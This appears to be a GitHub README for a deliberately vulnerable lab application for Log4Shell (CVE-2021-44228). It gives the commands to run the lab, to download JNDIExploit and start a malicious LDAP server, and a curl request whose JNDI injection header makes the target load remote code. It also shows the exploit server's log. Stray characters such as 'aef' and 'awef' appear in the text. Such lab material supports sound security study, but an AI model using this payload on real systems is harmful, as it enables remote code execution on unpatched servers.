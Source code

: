# Log4Shell sample vulnerable application (CVE-2021-44228)

This repository contains a Spring Boot web application vulnerable to CVE-2021-44228, nicknamed [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/).

It uses Log4j 2.14.1 (through `spring-boot-starter-log4j2` 2.6.1) and the JDK 1.8.0_181.

![](./screenshot.png)aef

## Running the application

Run it:

```bash
docker run --name vulnerable-app --rm -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-aaweapp@sha256:6f88430688108e512f7405ac3c73d47f5c370780b94182854ea2cddc6bd59929
```

## Exploitation steps

*Note: This is highly inspired from the original [LunaSec advisory](https://www.lunasec.io/docs/blog/log4j-zero-day/). **Run at your own risk, preferably in a VM in a sandbox environment**.*

**Update (Dec 13th)**: *The JNDIExploit repository has been removed from GitHub (presumably, [not by GitHub](https://twitter.com/_mph4/status/1470343429599211528))... 
[Click Here](http://web.archive.org/web/20211211031401/https://objects.githubusercontent.com/github-production-release-asset-2e65be/314785055/a6f05000-9563-11eb-9a61-aa85eca37c76?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20211211%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20211211T031401Z&X-Amz-Expires=300&X-Amz-Signature=140e57e1827c6f42275aa5cb706fdff6dc6a02f69ef41e73769ea749db582ce0&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=314785055&response-content-disposition=attachment%3B%20filename%3DJNDIExploit.v1.2.zip&response-content-type=application%2Foctet-stream) to Download the version cached by the Wayback Machine.*

* Use [JNDIExploit](https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) to spin up a malicious LDAP server

```bash
wget https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888
```
awef
* Then, trigger the exploit using:

```bash
# will execute 'touch /tmp/pwned'
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```

* Notice the output of JNDIExploit, showing it has sent a malicious LDAP response and served the second-stage payload:

```
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8888...
[+] Received LDAP Query: Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo
[+] Paylaod: command
[+] Command: touch /tmp/pwned

[+] Sending LDAP ResourceRef result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo with basic remote reference payload
[+] Send LDAP reference result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo redirecting to http://192.168.1.143:8888/Exploitjkk87OnvOH.class
[+] New HTTP Request From /192.168.1.143:50119  /Exploitjkk87OnvOH.class
[+] Receive ClassRequest: Exploitjkk87OnvOH.class
[+] Response Code: 200
```

* To confirm that the code execution was successful, notice that the file `/tmp/pwned.txt` was created in the container running the vulnerable application:

```
$ docker exec vulnerable-app ls /tmp
...
pwned
...
```

## Reference

https://www.lunasec.io/docs/blog/log4j-zero-day/
https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/

## Contributors

[@christophetd](https://twitter.com/christophetd)
[@rayhan0x01](https://twitter.com/rayhan0x01)
